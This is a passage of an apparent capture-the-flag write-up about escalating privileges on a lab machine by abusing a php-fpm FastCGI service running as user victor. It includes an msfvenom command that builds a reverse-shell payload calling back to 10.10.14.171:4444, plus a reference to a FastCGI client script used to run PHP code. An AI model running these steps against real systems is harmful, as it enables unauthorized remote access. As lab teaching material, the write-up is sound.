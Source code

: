 Uploaded and executed [Pspy64](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1). The *php-fpm* service is running as victor, the only user on the box.

```bash
$ pspy64 -pf -i 1000
```

<img src="/assets/img/pollution/image 31.png" alt="image 31.png" style="width:800px;">

We have full control over the *FastCGI* service.

```bash
$ grep -r "9000" /etc 2>/dev/null
/etc/nginx/sites-available/default:	#	fastcgi_pass 127.0.0.1:9000;
/etc/php/8.1/fpm/pool.d/www.conf:listen = 127.0.0.1:9000

$ cat /etc/php/8.1/fpm/pool.d/www.conf | grep -v ';' | sort -u

[victor]
[www]
group = victor
group = www-data
listen = /run/php/php8.1-fpm.sock
listen = 127.0.0.1:9000
listen.group = www-data
listen.owner = www-data
pm = dynamic
pm.max_children = 5
pm.max_spare_servers = 3
pm.min_spare_servers = 1
pm.start_servers = 2
user = victor
user = www-data
```

Created an stageless payload using `msfvenom` and served it on the HTTP server.

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.171 LPORT=4444 -f elf -o dusk.elf
```

Uploaded [this script](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75) to the target and executed PHP code to establish a reverse shell.
